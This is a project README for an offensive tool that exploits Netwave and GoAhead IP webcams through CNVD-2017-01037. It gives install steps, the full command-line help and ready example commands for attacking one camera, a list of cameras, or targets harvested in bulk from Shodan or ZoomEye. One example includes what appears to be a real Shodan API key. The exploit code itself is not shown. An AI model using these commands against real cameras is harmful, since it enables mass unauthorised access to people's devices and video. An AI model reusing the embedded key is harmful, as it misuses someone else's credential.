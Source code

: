 # Entropy Exploit (CNVD-2017-01037)

                  __                        
      ___  ____  / /__________  ____  __  __    ___
     / _ \/ __ \/ __/ ___/ __ \/ __ \/ / / /  [|   |=|{)__
    /  __/ / / / /_/ /  / /_/ / /_/ / /_/ /    |___| \/   )
    \___/_/ /_/\__/_/   \____/ .___/\__, /      /|\      /|
                            /_/    /____/      / | \     | \

<p align="center">
  <a href="http://entynetproject.simplesite.com/">
    <img src="https://img.shields.io/badge/entynetproject-Ivan%20Nikolsky-blue.svg">
  </a>
  <a href="https://github.com/entynetproject/entropy/releases">
    <img src="https://img.shields.io/github/release/entynetproject/entropy.svg">
  </a>
  <a href="https://wikipedia.org/wiki/Python_(programming_language)">
    <img src="https://img.shields.io/badge/language-python-blue.svg">
 </a>
  <a href="https://github.com/entynetproject/entropy">
      <img src="https://img.shields.io/badge/exploit-CNVD-red.svg?maxAge=2592000">
 </a>
  <a href="https://github.com/entynetproject/entropy/issues?q=is%3Aissue+is%3Aclosed">
      <img src="https://img.shields.io/github/issues/entynetproject/entropy.svg">
  </a>
  <a href="https://github.com/entynetproject/entropy/wiki">
      <img src="https://img.shields.io/badge/wiki%20-entropy-lightgrey.svg">
 </a>
  <a href="https://twitter.com/entynetproject">
    <img src="https://img.shields.io/badge/twitter-entynetproject-blue.svg">
 </a>
</p>

# About entropy exploit

    INFO: Entropy Exploit is an IP webcam exploit also named Netwave and 
    GoAhead IP Camera exploit or just CNVD-2017-01037 exploit. Entropy 
    is a powerful exploitation tool for webcams penetration testing.

# How to install entropy

    INFO: Entropy Exploit will be installed into /bin and 
    /usr/local/bin as /bin/entropy and /usr/local/bin/entropy!

> cd entropy

> chmod +x install.sh

> ./install.sh

# How to uninstall entropy

> cd entropy

> chmod +x uninstall.sh

> ./uninstall.sh

# How to execute entropy

> entropy -h

    usage: entropy [-h] [-b {1,2}] [-o OUTPUTFILE] [-T TIMEOUT] [-t TASKS]
                   [-c COUNT] [-q | -v]
                   [-i IP | -l INPUTFILE | --shodan SHODAN | --zoomeye ZOOMEYE]
                   [-u]

    optional arguments:
      -h, --help            show this help message and exit
      -b {1,2}, --brand {1,2}
                            Choose the brand of IP Camera. 1 - represents Netwave,
                            2 - represents GoAhead.
      -o OUTPUTFILE, --output OUTPUTFILE
                            Output into path you input. The default path in dir
                            /tmp
      -T TIMEOUT, --timeout TIMEOUT
                            The default timeout for netwave is 300s.
      -t TASKS, --task TASKS
                            Run TASKS number of connects in parallel, default is
                            10.
      -c COUNT, --count COUNT
                            The number of IP you want to get from ZoomEye. The
                            maximum is 2000. Default is 100.
      -q, --quiet           Quiet mode.
      -v, --verbose         Show more informations.
      -i IP, --ip IP        The camera's IP and port. Example: 192.168.1.100:80
      -l INPUTFILE, --list INPUTFILE
                            The camera's IP:port address file. The file's format
                            like this 192.168.1.100:80 in a line.
      --shodan SHODAN       Your Shodan API Key. You can get help from
                            https://www.shodan.io/
      --zoomeye ZOOMEYE     Your ZoomEye API Key. You can get help from
                            https://www.zoomeye.org/api
      -u, --update          Update Entropy Exploit.

# Entropy exploit examples

> Example of the exploiting a single camera
    
    entropy -b 1 -i 192.168.1.100:80 -v  
    
> Example of the exploiting cameras from a file

    entropy -b 2 -l iplist.txt -v
    
> Example of the exploiting cameras using shodan

    entropy -b 2 -v --shodan PSKINdQe1GyxGgecYz2191H2JoS9qvgD

# Entropy exploit resources

    INFO: This is an exploit used in Entropy Exploit.

**CNVD-2017-01037** - `Netwave and GoAhead IP Camera exploit` [View Exploit](https://www.cnvd.org.cn/flaw/show/CNVD-2017-01037)

# Terms of use

    This tool is only for educational purposes only.
    Use this tool wisely and never without permission.
    I am not responsible for anything you do with this tool.

# Entropy MIT license

    MIT License

    Copyright (C) 2019, Entynetproject. All Rights Reserved.

    Permission is hereby granted, free of charge, to any person obtaining a copy
    of this software and associated documentation files (the "Software"), to deal
    in the Software without restriction, including without limitation the rights
    to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
    copies of the Software, and to permit persons to whom the Software is
    furnished to do so, subject to the following conditions:

    The above copyright notice and this permission notice shall be included in all
    copies or substantial portions of the Software.

    THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
    IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
    FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
    AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
    LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
    OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
    SOFTWARE.

# Thats all!
